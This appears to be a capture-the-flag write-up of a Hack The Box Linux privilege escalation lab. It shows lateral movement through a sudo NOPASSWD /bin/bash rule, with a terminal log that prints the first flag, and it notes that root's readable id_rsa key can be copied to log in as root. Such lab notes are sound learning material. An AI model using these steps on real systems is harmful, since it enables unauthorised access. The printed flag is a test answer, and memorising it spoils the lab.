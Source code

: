 ## SSH to 83.136.249.33 with user "user1" and password "password1"

1. SSH into the server above with the provided credentials, and use the '-p xxxxxx' to specify the port shown above. Once you login, try to find a way to move to 'user2', to get the flag in '/home/user2/flag.txt'.
2. Once you gain access to 'user2', try to find a way to escalate your privileges to root, to get the flag in '/root/flag.txt'. 

## Notes

```
User user1 may run the following commands on ng-1423594-gettingstartedprivesc-g7cea-5bb59f9ff7-drh8x:
    (user2 : user2) NOPASSWD: /bin/bash

```
This may be useful later for priv exec
```
User user1 may run the following commands on ng-1423594-gettingstartedprivesc-g7cea-5bb59f9ff7-drh8x:
    (user2 : user2) NOPASSWD: /bin/bash
user1@ng-1423594-gettingstartedprivesc-g7cea-5bb59f9ff7-drh8x:/$ sudo -u user2 /bin/bash
user2@ng-1423594-gettingstartedprivesc-g7cea-5bb59f9ff7-drh8x:/$ dir
bin  boot  dev  etc  home  lib  lib32  lib64  libx32  media  mnt  opt  proc  root  run  sbin  srv  sys  tmp  usr  var
user2@ng-1423594-gettingstartedprivesc-g7cea-5bb59f9ff7-drh8x:/$ dir home
user1  user2
user2@ng-1423594-gettingstartedprivesc-g7cea-5bb59f9ff7-drh8x:/$ cd /home/user2
user2@ng-1423594-gettingstartedprivesc-g7cea-5bb59f9ff7-drh8x:~$ dir
flag.txt
user2@ng-1423594-gettingstartedprivesc-g7cea-5bb59f9ff7-drh8x:~$ cat flag.txt
HTB{l473r4l_m0v3m3n7_70_4n07h3r_u53r}

```
Was able to `sudo -u user2 /bin/bash` which weirdly moved me over to user2, I then navigated to their home directory and read the first flag.
[Exploit for NOPASSWD /bin/bash ](https://medium.com/schkn/linux-privilege-escalation-using-text-editors-and-files-part-1-a8373396708d) 

This is interesting

![image](https://github.com/user-attachments/assets/7994d2ee-9c99-46e1-b5e1-cc0bd8b90ce8)

Doesn't appear the cron jobs are useful to me
Nothing in command history

![image](https://github.com/user-attachments/assets/3ab80913-5de4-461a-a700-342c2589d7b4)

I was able to use `find / -name authorized_keys`

We can read the id_rsa so we can copy the key and login as root from our machine

![image](https://github.com/user-attachments/assets/610ac717-e356-40c2-bd03-4ba8c0af15dc)

